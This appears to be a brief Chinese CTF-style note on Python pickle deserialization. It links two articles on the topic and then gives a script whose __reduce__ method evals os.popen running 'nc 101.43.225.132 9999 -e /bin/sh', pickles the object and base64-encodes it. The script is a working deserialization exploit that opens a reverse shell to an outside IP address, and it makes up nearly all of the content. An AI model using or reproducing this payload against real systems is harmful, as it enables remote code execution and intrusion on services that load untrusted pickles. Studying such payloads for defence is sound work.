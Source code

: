 # 知识点
[Python pickle 反序列化详解 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/264363.html)<br />[pickle反序列化初探 - 先知社区](https://xz.aliyun.com/t/7436#toc-5)
# 思路
```plsql
import pickle
import base64

class cmd():
    def __reduce__(self):
        return (eval,("__import__('os').popen('nc 101.43.225.132 9999 -e /bin/sh').read()",))

c = cmd()
c = pickle.dumps(c)
print(base64.b64encode(c))
```
